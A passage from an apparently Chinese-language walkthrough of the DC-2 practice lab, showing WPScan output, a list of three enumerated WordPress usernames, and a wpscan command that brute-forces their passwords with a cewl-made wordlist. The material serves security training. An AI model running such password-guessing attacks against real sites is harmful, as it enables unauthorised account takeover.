 ```

[+] Finished: Thu Nov 12 18:16:10 2020
[+] Requests Done: 55
[+] Cached Requests: 6
[+] Data Sent: 12.342 KB
[+] Data Received: 514.096 KB
[+] Memory used: 134.669 MB
[+] Elapsed time: 00:00:03
```

新建一个. list 文件（例如：dc-2users.list）将扫描到的三个用户名添加到该文件中。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciaf2hk3KdmziawovN8FPAGKs2No1BJuac6MuicujAQ5ueRWCksQnmmqPhZQ/640?wx_fmt=png)

```
vim dc-2users.list

admin
tom
jerry
```

结合 cewl 工具生成的字典文件进行爆破

```
root@kalilinux:/# wpscan --url http://dc-2/ -U dc-2users.list -P pwd.txt
```

```
root@kalilinux:/# wpscan --url http://dc-2/ -U dc-2users.list -P pwd.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.5
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://dc-2/
[+] Started: Fri Nov 13 11:08:01 2020

Interesting Finding(s):

[+] http://dc-2/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
```